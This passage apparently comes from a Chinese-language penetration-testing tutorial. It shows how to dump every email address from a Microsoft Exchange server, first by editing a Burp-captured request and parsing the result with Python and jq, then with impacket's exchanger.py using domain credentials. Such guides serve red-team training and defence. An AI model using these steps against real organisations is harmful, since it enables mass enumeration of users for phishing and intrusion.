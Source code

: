 [![](https://p1.ssl.qhimg.com/t0125b94f44f5115601.png)](https://p1.ssl.qhimg.com/t0125b94f44f5115601.png)

默认是80

然后查看响应包，拉到最后

[![](https://p2.ssl.qhimg.com/t01c624b59274079243.png)](https://p2.ssl.qhimg.com/t01c624b59274079243.png)

这个是总的邮箱数

然后把80 改成这个数，直接发，就是邮箱数，但是有点多,burp容易卡死。可以这样

右键copy as request(这一步需要装插件)

然后复制到python文件里面

后面的内容改下

本来最后一行是

```
requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
```

改成

```
r = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
j = r.json()
results = j.get('Body').get('ResultSet')
import json
print(json.dumps(results))
```

然后运行python

```
python 1.py | jq '.[].EmailAddresses[0].EmailAddress' -r|sort|uniq|
```

这样就提取出所有的邮箱

### <a class="reference-link" name="4.%20%E4%BD%BF%E7%94%A8impacket%E5%BA%95%E4%B8%8B%E7%9A%84exchanger.py"></a>4. 使用impacket底下的exchanger.py

今年5月份刚更新的一个脚本

```
python exchanger.py DOMAIN/daiker:密码@MAIL nspi list-tables
```

[![](https://p2.ssl.qhimg.com/t019396a74a1a2ab6e3.png)](https://p2.ssl.qhimg.com/t019396a74a1a2ab6e3.png)

```
python exchanger.py DOMAIN/daiker:密码@MAIL nspi dump-tables  -guid xxxx
```

[![](https://p3.ssl.qhimg.com/t01f43661745f81d067.png)](https://p3.ssl.qhimg.com/t01f43661745f81d067.png)
